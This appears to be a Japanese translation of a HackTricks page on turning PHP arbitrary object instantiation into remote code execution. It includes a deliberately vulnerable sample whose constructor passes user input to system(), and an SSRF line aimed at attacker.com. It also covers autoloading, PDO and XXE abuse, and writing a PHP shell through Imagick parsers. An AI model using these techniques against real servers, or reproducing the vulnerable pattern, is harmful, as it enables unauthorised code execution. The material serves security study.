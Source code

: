 # PHP - オブジェクト作成を悪用したRCE: new $\_GET\["a"]\($\_GET\["b"])

<details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>をチェック！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォロー**してください。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有**してください。

</details>

## はじめに

`new $_GET["a"]($_GET["a"])`のように任意の新しいオブジェクトを作成できる状況では、RCEを取得できる可能性があり、[**このライトアップ**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)ではRCEを取得するさまざまな方法を公開しています。

## カスタムクラスまたはオートローディングを介したRCE

`new $a($b)`の構造では、**変数`$a`は作成されるオブジェクトのクラス名**を表し、変数**`$b`はオブジェクトのコンストラクタに渡される最初の引数**を表します。

`$a`と`$b`がGET/POSTから来る場合、それらは**文字列または文字列の配列**になります。**JSON**や他の場所から来る場合、それらはオブジェクトやブール値など、**他のタイプを持つ可能性があります**。

次の例を考えてみましょう：
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

# Additionally, in PHP < 8.0 a constructor might be defined using the name of the class
class App2 {
function App2 ($cmd) {
system($cmd);
}
}

# Vulnerable code
$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
このコードでは、`$a`を`App`または`App2`に、`$b`を`uname -a`に設定できます。その後、コマンド`uname -a`が実行されます。

アプリケーションにそのような利用可能なクラスがない場合、または必要なクラスが脆弱なコードによってインクルードされていない別のファイルにある場合は、オートローディング関数を見てみると良いでしょう。

**オートローディング関数**は、`spl_autoload_register`を介してコールバックを登録するか、`__autoload`を定義することによって設定されます。未知のクラスのインスタンスが作成されようとしたときに呼び出されます。
```php
# An example of an autoloading function
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

# An example of an autoloading function, works only in PHP < 8.0
function __autoload($class_name) {
include $class_name . '.php';
};

# Calling spl_autoload_register with no arguments enables the default autoloading function, which includes lowercase($classname) + .php/.inc from include_path
spl_autoload_register();
```
PHPのバージョンやオートローディング関数内のコードによっては、オートローディングを介してリモートコード実行（RCE）を行う方法が存在する可能性があります。

## 組み込みクラスを利用したRCE

カスタムクラスやオートローディングがない場合、**PHPの組み込みクラスのみ**に依存することができます。

PHPには100から200の組み込みクラスがあります。その数はPHPのバージョンやインストールされている拡張機能によって異なります。`get_declared_classes` 関数を使用すると、カスタムクラスとともに、すべての組み込みクラスをリストすることができます。
```php
var_dump(get_declared_classes());
```
クラスには有用なコンストラクタがあり、[リフレクションAPI](https://www.php.net/manual/en/book.reflection.php)を通じて見つけることができます。

リフレクションAPIを使用してコンストラクタとそのパラメータを表示する：[https://3v4l.org/2JEGF](https://3v4l.org/2JEGF)

![](https://swarm.ptsecurity.com/wp-content/uploads/2022/07/2.png)

**複数のコンストラクタパラメータを制御し、その後任意のメソッドを呼び出すことができる場合**、リモートコード実行を得る方法は多数あります。しかし、**1つのパラメータのみを渡し、作成されたオブジェクトに対して呼び出しがない場合**、**ほとんど何も**ありません。

`new $a($b)`から何かを得る方法は3つしか知りません。

### **SSRF + Phar逆シリアライズ**

`SplFileObject`クラスは、任意のローカルまたはリモートURLに接続を許可するコンストラクタを実装しています：
```
new SplFileObject('http://attacker.com/');
```
これによりSSRFが可能になります。さらに、PHP < 8.0のSSRFは、Pharプロトコルを使用した技術によってデシリアライゼーションに変換することができました。

### **PDOの悪用**

PDOクラスにはもう一つ興味深いコンストラクタがあります：
```php
new PDO("sqlite:/tmp/test.txt")
```
`PDO` コンストラクタは DSN 文字列を受け入れ、**インストールされたデータベース拡張機能**を使用して**任意のローカルまたはリモートデータベースに接続**することができます。例えば、SQLite 拡張機能は空のファイルを作成することができます。

### **SoapClient/SimpleXMLElement XXE**

PHP ≤ 5.3.22 および ≤ 5.4.12 では、SoapClient のコンストラクタは **XXE に対して脆弱**でした。SimpleXMLElement のコンストラクタも XXE に対して脆弱でしたが、libxml2 < 2.9 が必要でした。

## Imagick 拡張機能を介した RCE

**プロジェクト**の**依存関係**をチェックすることで、新しいオブジェクトを作成して**コマンドを実行するために悪用できる新しいクラス**を見つけることができるかもしれません。この場合、**Imagick** はその目的に役立つことがわかりました。

### VID パーサー

VID パーサーは、ファイルシステム内の任意のパスに任意の内容を書き込むことができ、攻撃者がウェブページからアクセス可能なフォルダに PHPshell を書き込んで RCE を取得することを可能にします。

![](<../../../.gitbook/assets/image (157) (3).png>)

#### VID パーサー + ファイルアップロード

PHP にファイルがアップロードされると、一時的に `/tmp/phpXXXXXX` に保存されます。Imagick の VID パーサーは **msl** プロトコルを使用してファイルパスにワイルドカードを**指定することができ**（そのため、一時的にアップロードされたファイルに簡単にアクセスできます）、**任意の場所にコピーすることができます**。\
これはファイルシステム内で任意のファイル書き込みを得る別の方法です：

![](<../../../.gitbook/assets/image (159).png>)

### PHP クラッシュ + ブルートフォース

[**元のライトアップ**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) は、特定の内容のファイルをアップロードして、サーバーがそのファイルを削除する前にクラッシュさせ、一時ファイルの名前をブルートフォースして、**Imagick が任意の PHP コードを実行する**までの別の方法を説明しました。

しかし、どうやら発見された**クラッシュのトリック**は**古いバージョンの ImageMagick**でのみ機能したようです。

## 参考文献

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>AWS ハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法：

* **HackTricks に広告を掲載したい**、または **HackTricks を PDF でダウンロードしたい** 場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式 PEASS & HackTricks グッズ**](https://peass.creator-spring.com) を入手してください。
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) を発見してください。私たちの独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) のコレクションです。
* 💬 [**Discord グループ**](https://discord.gg/hRep4RUj7f) または [**telegram グループ**](https://t.me/peass) に**参加するか**、🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) で私に**フォローしてください**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks) および [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) の github リポジトリに PR を提出して、あなたのハッキングのコツを**共有してください**。

</details>
